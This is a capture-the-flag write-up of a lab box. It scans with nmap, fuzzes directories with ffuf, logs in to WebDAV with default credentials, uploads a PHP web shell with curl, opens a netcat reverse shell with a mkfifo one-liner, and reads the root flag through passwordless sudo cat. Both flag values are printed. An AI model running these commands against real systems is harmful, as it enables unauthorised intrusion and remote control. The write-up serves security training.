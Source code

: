 <h3>1. Task: user.txt</h3>

Lets start with the usual nmap scans!

```
$ nmap 10.10.202.252
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-18 07:38 EDT
Nmap scan report for 10.10.202.252
Host is up (0.078s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 1.76 seconds
```

A web server on port 80, lets check it out.<br>
Hm, apache ubuntu default page, lets try to fuzz the directories!
```
$ ffuf -u http://10.10.202.252/FUZZ -w ../wordlist/custom.txt -fc 403 -fs 11321
...
webdav                  [Status: 401, Size: 460, Words: 42, Lines: 15, Duration: 43ms]
```

Ffuf found a login page<br>
<img src = "login.png">
Webdavs default credentials are: **wampp:xampp**<br>
Lets try to login with this Password and Username<br>

Logged in successfully! Its a filesystem:

<img src="fs.png"><br>

I can upload files to webdav like this:
```
$ curl http://10.10.202.252/webdav/ --user "wampp:xampp" --upload-file ../shell.php
```
After uploading my shell.php file, it should appear in the filesystem<br>
This is just a simple Remote shell php file, we can write system commands in here and execute them<br>
And now i Will open a netcat session for a better Shell<br>
Start the listener:
```
$ ncat -nlvp 8001
```

And execute the code in the uploaded file:
```
rm /tmp/f; mkfifo /tmp/f; nc <Your_ip> 8001 < /tmp/f | /bin/sh >/tmp/f 2>&1
```
And now i have a more stable Shell
```
$ ncat -nlvp 8001
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on [::]:8001
Ncat: Listening on 0.0.0.0:8001
Ncat: Connection from 10.10.202.252:57600.
```

Now lets find the first flag
```
www-data@ubuntu:/home$ ls
merlin  wampp
www-data@ubuntu:/home$ cd merlin 
www-data@ubuntu:/home/merlin$ ls
user.txt
www-data@ubuntu:/home/merlin$ cat user.txt
449b40fe93f78a938523b7e4dcd66d2a
```

<hr>
<h3> 2. Task: root flag </h3>

Running the command "sudo -l" showed that i can run the cat command as root without Password
```
www-data@ubuntu:/tmp$ sudo -l   
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat
```

This Will allow us to read the root flag in /root/root.txt !
```
www-data@ubuntu:/tmp$ sudo cat /root/root.txt
101101ddc16b0cdf65ba0b8a7af7afa5
```
